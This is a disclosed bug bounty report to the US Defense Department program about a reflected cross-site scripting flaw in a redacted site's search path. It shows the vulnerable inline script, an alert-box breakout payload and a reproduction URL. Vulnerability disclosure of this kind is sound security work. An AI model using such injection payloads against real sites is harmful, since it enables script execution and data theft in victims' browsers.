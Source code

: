 # Reflected XSS on ███████

## Report Details
- **Report ID**: 1062380
- **URL**: https://hackerone.com/reports/1062380
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2020-12-19T10:14:19.717Z
- **Disclosed**: 2021-04-02T18:49:44.742Z

## Reporter
- **Username**: phibz
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
## Summary 
Reflected XSS on `████████`.

## Description
During my explorations I found `█████████/search/node`, which provides a basic search functionality. If we search something, the value is reflected and not properly sanitized. For example if we search `██████████/search/node/chron0x` we can see in the javascript code:
```javascript
[...]
<script>
	//Early marking that the browser supports javascript
	try {
		document.getElementsByTagName('body')[0].classList.add("js");
	} catch(E) {
		document.getElementsByTagName('body')[0].className += " js";
	}
	var rootN = "https://████/████";
	var whoisURL = "/█████████";
	var eventTitle = "";
	var ████; //Whether the person is on the receiving end of chats
	var internalPath = 'search/node/chron0x';
</script>
[...]
```
Due to improper input sanitization, this is vulnerable to XSS. Inserting the payload `';alert('chron0x');'` into the search field leads to
```javascript
[...]
<script>
	//Early marking that the browser supports javascript
	try {
		document.getElementsByTagName('body')[0].classList.add("js");
	} catch(E) {
		document.getElementsByTagName('body')[0].className += " js";
	}
	var rootN = "https://████/██████████";
	var whoisURL = "/████";
	var eventTitle = "";
	var ████; //Whether the person is on the receiving end of chats
	var internalPath = 'search/node/';alert('chron0x');'';
</script>
[...]
```
This pops an alert box, demonstrating XSS.

Note: I am reporting this here, since the footer of `█████████` states `Official United States ████ Website. The █████ ████████.`, and the United States ██████████ underlies the DoD. If this should not belong to the DoD scope I would kindly ask to self close this issue.

## Step-by-step Reproduction Instructions

1. Visit `https://██████████/search/node/%27%3Balert%28%27chron0x%27%29%3B%27`

An alert box with `chron0x` pops.

I am attaching an image demonstrating the XSS.

## Mitigation/Remediation Actions
Sanitize the input for the article parameter, such that certain characters are encoded or not allowed.

## Impact

Medium - Data can be stolen, or Javascript can be executed.

## Attachments
No attachments
